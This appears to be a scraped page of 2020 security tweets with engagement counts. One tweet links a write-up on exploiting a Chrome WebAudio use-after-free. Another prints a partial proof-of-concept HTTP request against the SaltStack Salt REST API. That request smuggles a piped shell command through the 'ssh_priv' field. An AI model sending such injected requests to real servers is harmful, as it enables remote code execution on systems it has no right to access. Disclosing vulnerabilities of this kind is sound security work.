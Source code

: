 <table><tr>
<td><img src="pictures/020ee44faf93c49a8638884cc812c606789a702fed4222d15ea51bad3f9886f3.jpg" alt="020ee44faf93c49a8638884cc812c606789a702fed4222d15ea51bad3f9886f3.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>30</code></td>
<td>Favorites: <code>91</code></td>
</tr></table>

---

# GHSecurityLab
**https://twitter.com/GHSecurityLab/status/1329091248997625857 _at 2020-11-18, 15:57:01_**
<blockquote>
ICYMI @mmolgtm explains how to exploit CVE-2020-6449, a use-after-free (UAF) in the WebAudio module of Chrome, and achieve a sandboxed RCE. Read also how he used #CodeQL to accelerate his code audit https://t.co/k5ddV8Scv3
</blockquote>

* https://github.co/3msMoMy

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>29</code></td>
<td>Favorites: <code>78</code></td>
</tr></table>

---

# wugeej
**https://twitter.com/wugeej/status/1328942729095753731 _at 2020-11-18, 06:06:51_**
<blockquote>
CVE-2020-16846
CVE-2020-25592
SaltStack Salt REST API RCE

[PoC]
POST /run HTTP/1.1
Host: [Victim:8888]
...
...

token=12312&amp;client=ssh&amp;tgt=*&amp;fun=a&amp;roster=whip1ash&amp;ssh_priv=aaa|open%20/System/Applications/Calculator.app%3b

https://t.co/jdgIUFSW6x https://t.co/s7xlLDkHDX
</blockquote>

* https://paper.seebug.org/1398/
